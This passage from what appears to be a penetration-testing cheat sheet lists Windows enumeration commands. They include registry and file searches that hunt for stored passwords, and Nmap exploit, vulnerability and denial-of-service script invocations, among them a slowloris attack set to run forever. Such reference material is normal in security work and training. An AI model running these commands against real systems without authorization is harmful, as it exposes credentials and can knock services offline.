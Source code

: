     -   ipconfig /all

    -   route print

    -   arp -A

    -   netstat -ano

    -   netsh firewall show state

    -   netsh firewall show config

    -   schtasks /query /fo LIST /v

    -   tasklist /SVC

    -   net start

    -   DRIVERQUERY

    -   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    -   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

    -   dir /s *pass* == *cred* == *vnc* == *.config*

    -   findstr /si password *.xml *.ini *.txt

    -   reg query HKLM /f password /t REG_SZ /s

    -   reg query HKCU /f password /t REG_SZ /s

-   Vulnerability Scanning with Nmap

-   Nmap Exploit Scripts
    [*https://nmap.org/nsedoc/categories/exploit.html*](https://nmap.org/nsedoc/categories/exploit.html)

-   Nmap search through vulnerability scripts
    `cd /usr/share/nmap/scripts/
    ls -l \*vuln\*`

-   Nmap search through Nmap Scripts for a specific keyword
    `ls /usr/share/nmap/scripts/\* | grep ftp`

-   Scan for vulnerable exploits with nmap
    `nmap --script exploit -Pn $ip`

-   NMap Auth Scripts
    [*https://nmap.org/nsedoc/categories/auth.html*](https://nmap.org/nsedoc/categories/auth.html)

-   Nmap Vuln Scanning
    [*https://nmap.org/nsedoc/categories/vuln.html*](https://nmap.org/nsedoc/categories/vuln.html)

-   NMap DOS Scanning
    `nmap --script dos -Pn $ip
    NMap Execute DOS Attack
    nmap --max-parallelism 750 -Pn --script http-slowloris --script-args
    http-slowloris.runforever=true`

-   Scan for coldfusion web vulnerabilities
    `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`
